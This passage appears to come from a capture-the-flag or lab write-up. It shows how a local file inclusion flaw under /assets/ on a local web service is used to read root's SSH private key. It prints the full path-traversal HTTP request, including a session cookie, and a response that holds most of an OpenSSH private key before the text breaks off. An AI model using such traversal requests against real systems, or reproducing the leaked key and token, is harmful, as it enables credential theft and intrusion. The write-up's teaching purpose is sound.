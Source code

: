 Now since we confirmed that the `Local File Inclusion (LFI)` on `/assets/` worked our next logical step was trying to read the `SSH key` of `root` and that worked too!

```c
GET /assets/../../../../../root/.ssh/id_rsa HTTP/1.1
Host: 127.0.0.1:8081
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="129", "Not=A?Brand";v="8"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Cookie: remember_token=defaultuser@changedetection.io|944643701d7eaf4435d6dabf09180720963153a8510359fc4aeee7eeaec680dc962b5017f211f9a49bcba9441023e354878583f2030cb7c112c3e68ed9008e85
Connection: keep-alive


```

```c
HTTP/1.1 200 OK
Content-Type: application/octet-stream
Etag: "17d9a4c79c30680c-a2a"
Last-Modified: Mon, 17 Jun 2024 00:58:31 GMT
Content-Length: 2602
Accept-Ranges: bytes
Date: Sun, 20 Oct 2024 09:57:35 GMT
Server: Python/3.9 aiohttp/3.9.1

-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAsFbYzGxskgZ6YM1LOUJsjU66WHi8Y2ZFQcM3G8VjO+NHKK8P0hIU
UbnmTGaPeW4evLeehnYFQleaC9u//vciBLNOWGqeg6Kjsq2lVRkAvwK2suJSTtVZ8qGi1v
j0wO69QoWrHERaRqmTzranVyYAdTmiXlGqUyiy0I7GVYqhv/QC7jt6For4PMAjcT0ED3Gk
HVJONbz2eav5aFJcOvsCG1aC93Le5R43Wgwo7kHPlfM5DjSDRqmBxZpaLpWK3HwCKYITbo
DfYsOMY0zyI0k5yLl1s685qJIYJHmin9HZBmDIwS7e2riTHhNbt2naHxd0WkJ8PUTgXuV2
UOljWP/TVPTkM5byav5bzhIwxhtdTy02DWjqFQn2kaQ8xe9X+Ymrf2wK8C4ezAycvlf3Iv
ATj++Xrpmmh9uR1HdS1XvD7glEFqNbYo3Q/OhiMto1JFqgWugeHm715yDnB3A+og4SFzrE
vrLegAOwvNlDYGjJWnTqEmUDk9ruO4Eq4ad1TYMbAAAFiPikP5X4pD+VAAAAB3NzaC1yc2
EAAAGBALBW2MxsbJIGemDNSzlCbI1Oulh4vGNmRUHDNxvFYzvjRyivD9ISFFG55kxmj3lu
Hry3noZ2BUJXmgvbv/73IgSzTlhqnoOio7KtpVUZAL8CtrLiUk7VWfKhotb49MDuvUKFqx
xEWkapk862p1cmAHU5ol5RqlMostCOxlWKob/0Au47ehaK+DzAI3E9BA9xpB1STjW89nmr
+WhSXDr7AhtWgvdy3uUeN1oMKO5Bz5XzOQ40g0apgcWaWi6Vitx8AimCE26A32LDjGNM8i
NJOci5dbOvOaiSGCR5op/R2QZgyMEu3tq4kx4TW7dp2h8XdFpCfD1E4F7ldlDpY1j/01T0
5DOW8mr+W84SMMYbXU8tNg1o6hUJ9pGkPMXvV/mJq39sCvAuHswMnL5X9yLwE4/vl66Zpo
fbkdR3UtV7w+4JRBajW2KN0PzoYjLaNSRaoFroHh5u9ecg5wdwPqIOEhc6xL6y3oADsLzZ
Q2BoyVp06hJlA5Pa7juBKuGndU2DGwAAAAMBAAEAAAGBAJikdMJv0IOO6/xDeSw1nXWsgo
325Uw9yRGmBFwbv0yl7oD/GPjFAaXE/99+oA+DDURaxfSq0N6eqhA9xrLUBjR/agALOu/D
p2QSAB3rqMOve6rZUlo/QL9Qv37KvkML5fRhdL7hRCwKupGjdrNvh9Hxc+WlV4Too/D4xi
JiAKYCeU7zWTmOTld4ErYBFTSxMFjZWC4YRlsITLrLIF9FzIsRlgjQ/LTkNRHTmNK1URYC
Fo9/UWuna1g7xniwpiU5icwm3Ru4nGtVQnrAMszn10E3kPfjvN2DFV18+pmkbNu2RKy5mJ
XpfF5LCPip69nDbDRbF22stGpSJ5mkRXUjvXh1J1R1HQ5pns38TGpPv9Pidom2QTpjdiev
dUmez+ByylZZd2p7wdS7pzexzG0SkmlleZRMVjobauYmCZLIT3coK4g9YGlBHkc0Ck6mBU
HvwJLAaodQ9Ts9m8i4yrwltLwVI/l+TtaVi3qBDf4ZtIdMKZU3hex+MlEG74f4j5BlUQAA
AMB6voaH6wysSWeG55LhaBSpnlZrOq7RiGbGIe0qFg+1S2JfesHGcBTAr6J4PLzfFXfijz
syGiF0HQDvl+gYVCHwOkTEjvGV2pSkhFEjgQXizB9EXXWsG1xZ3QzVq95HmKXSJoiw2b+E
```